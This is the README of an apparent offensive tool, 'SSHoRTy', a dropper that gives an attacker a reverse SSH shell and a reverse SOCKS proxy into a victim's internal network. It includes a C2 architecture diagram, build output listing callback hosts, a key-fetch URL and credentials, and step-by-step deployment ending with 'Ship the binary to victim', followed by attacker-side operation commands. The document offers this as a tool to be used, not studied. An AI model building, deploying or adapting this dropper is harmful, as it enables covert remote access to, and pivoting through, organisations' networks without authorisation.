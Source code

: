 
# SSHoRTy

A standalone SSH Reverse shell tunnel and Reverse SOCKS Proxy Dropper for *nix systems. 
```bash
 [Organization]  ----- |Internet| ------ [Attacker C2]
 
      (Dropper)  ------ Call back ------> SSH Server -------------------|
                                                                        |  Attacker SSH shell client             
 1. Internal Host <==== SSH Client <= Reverse Shell ==== SSH Server ----|
                                                                        |  Attacker Browser+SOCKS
 2. Internal Hosts N <==== SSH Client <= Reverse SOCKS ==== SSH Server -|
    Internal Hosts N+1

```
## Features

- Full PTY support, the "real" shell
- end-to-end SSH w/key equivalency
- RSA key can be hosted offsite and fetched for operation. It is Additionally encrypted with AES in flight 
- Reverse SSH is protected on atatcker side with an additional password to avoid hijacking connections.
- Ability to protect from C2 takeover from DFIR by authorized_keys options 

Note: No SCP yet. No DNS proxying yet.

## Deployment 

Build Dropper 

`./build.sh`

```bash
[*] Building dropper
[*] Dropper Information (keep it safe):
    #######################
    Dropper File: rssh (7010788 bytes)
    SSH serverHost=192.168.88.15
    SSH serverPort=22
    SSH serverUser=tester
    SSH serverUserKeyUrl=http://127.0.0.1:9000/id_rsa_test_enc
    SSH serverUserKeyPassphrase=password1
    SSH-RT remoteCmdHost=127.0.0.1
    SSH-RT remoteCmdPort=2022
    SSH-RT remoteCmdUser=operator
    SSH-RT remoteCmdPwd=6009c967f7176e5be0bb14d5b2beb0a8905a069f
    SSH-RTS remoteSocksHost=127.0.0.1
    SSH-RTS remoteSocksPort=1080
    SSH-RT shell agent password: 6009c967f7176e5be0bb14d5b2beb0a8905a069f 
    #######################

       Usage SSH-RT: ssh operator@127.0.0.1 -p 2022 
       Usage SSH-RTS: browser SOCKS proxy: 127.0.0.1:1080 

```
1. Host dropper RSA keys on HTTP server (fetchable by URL from Company Intranet)
2. Allow SSH on C2 
3. Ship the binary to victim


## Operation

```bash
       SSH from Attacker C2: ssh operator@127.0.0.1 -p 2022 
       
       SOCKS from Attacker C2 SOCKS proxy: 127.0.0.1:1080 
       point your browser to it and/or proxifier. Note: no DNS masking yet.
```

## V2:
```bash
./websockify.py --ssl-only  --cert=/Users/dimas/Code/go/src/sshpipe/websocketd/sslcert.pem --key=/Users/dimas/Code/go/src/sshpipe/websocketd/sslkey.pem 8080 172.16.56.230:22
``` 
 
## Code used
Thanks to ref: 
- https://gist.github.com/codref/473351a24a3ef90162cf10857fac0ff3
-	 https://gist.github.com/pavel-odintsov/0208f1848952d4940b4a5976165db17f
-	 https://github.com/creack/termios/blob/master/win/win.go
-	 https://github.com/davecheney/socksie
-	 https://sosedoff.com/2015/05/25/ssh-port-forwarding-with-go.html
- https://raw.githubusercontent.com/Scalingo/go-ssh-examples/master/server_complex.go

